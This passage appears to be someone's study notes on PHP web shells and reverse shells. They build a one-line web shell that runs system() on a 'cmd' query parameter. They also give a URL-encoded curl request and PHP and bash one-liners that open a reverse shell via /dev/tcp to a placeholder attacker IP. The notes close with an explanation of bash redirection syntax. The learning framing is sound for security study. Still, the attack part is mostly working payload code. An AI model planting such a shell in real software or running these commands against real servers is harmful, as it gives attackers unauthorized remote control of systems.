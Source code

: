 From the above, `system()` seems like a useful command to be able to execute a command and see the output streamed to the browser or wherever the output is being displayed. Based on all of the above information, it seems we can write a PHP file that will take in a URL query param and execute the command on the server:

```php
<?php
    system($_GET["cmd"]);
?>
```

N.b. after doing some more research, it seems that in other approaches, the `exec()` function is preferred

**Reverse Shell**  
Given all of the above, it seems possible that a reverse shell payload could be written entirely in PHP without the need for a bash script and the need to host the payload somewhere. (I while qualify that statement by saying sometimes it may be useful and perhaps preferred to do such a thing). 

Potential solution number 1 would be put the bash payload in the `cmd` query param. Option number 2 would be to include all of the bash payload in the PHP script, like so:
```php
// Option 1:
// curl http://example.com?cmd=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F%3CIP%3E%2F1337%200%3E%261

// Option 2:
<?php 
    system("bash -i >& /dev/tcp/<IP>/1337 0>&1")
?>
```

N.b. after doing some more reading online, it seems preferable to change the script. `exec()` may be more flexible for additional scripting. Furthermore, it is preferred to add the `/bin/bash -c` prefix to ensure the command runs in bash. Here is the updated script:
```php
<?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP/1337> 0>&1'");
?>
```

There are certainly further options to create a reverse shell in bash. It seems the simple way is to execute a system command.


#### Bash script
```bash
bash -i >& /dev/tcp/<IP/1337> 0>&1
```

Reading the [bash manpage](https://www.gnu.org/software/bash/manual/bash.html#Redirections) and looking through some [StackOverflow](https://stackoverflow.com/a/11255498) posts, here is some bonus learning on file descriptor redirects in bash:
* `>` "clobbers" the file (removes the pre-existing content and writes the output of the preceding command to it)
* `&` is used in file descriptor redirections. It is commonly seen in the form `&>` or `>&` (both are equivalent, though the first is preferred) to redirect stdout and stderr to the same location. It is equivalent to `>word 2>&1`. They are probably interchangeable because of some computer history where the latter option was the preferred redirection syntax.
